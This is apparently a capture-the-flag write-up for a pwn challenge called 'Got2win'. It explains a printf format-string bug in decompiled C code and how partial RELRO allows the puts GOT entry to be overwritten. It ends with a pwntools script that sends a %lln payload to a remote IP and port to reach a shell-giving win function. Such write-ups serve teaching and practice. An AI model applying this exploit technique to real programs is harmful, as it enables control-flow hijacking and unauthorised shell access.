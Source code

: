  # Got2win

1) This binary is compiled with NX ,Stack Canary and Partial Relro. Partial Relro allows us to overwrite the got table to hijack rip control. This is useful because the binary has stack canary to bypass this we need to leak the stack canary. But if we have any arbitrary write condition available we could basically overwrite the got entry with address we want to jump.  

2) This binary also has a win function which gives us a shell when we jump there. But to jump there we need a vuln that basically allows us to do it.

3) When analysing the code the input is read via fgets and the size parameter in fgets is less than the actually buffer size and no way here to overflow the buffer. But the problem arises when the user input is printed with printf.The printf has no format specifiers present . So what we can do is basically pass our format specifiers that allows us to read and write any location of our choosing.

   ```c
     long in_FS_OFFSET;
     char local_118 [264];
     long local_10;
     
     local_10 = *(long *)(in_FS_OFFSET + 0x28);
     printf("Bend the knee Jon, and repeat > ");
     fgets(local_118,0x8f,stdin);
     printf(local_118);
     if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                       /* WARNING: Subroutine does not return */
       __stack_chk_fail();
     }
     return;
   ```

   

4.My first idea was to overwrite the unresolved got address of exit got entry but for that we have to wait untill the alarm of 60 seconds kicks in to execute the exit function which we tampered it to win function via our format string bug. The plan kinda failed. So my next plan was to overwrite the whole puts got entry using the  **%lln** format specifier to modify the whole 64 bit address to win function address.

```python
#!/usr/bin/env python3


from pwn import *
from time import sleep
context.arch = "amd64"
e = ELF("./got2win")
r = remote("34.100.187.70",5555)
exploit = b"%4199151x" + b"         %9$lln" + p64(e.got.puts)
r.sendline(exploit)
r.interactive()
```


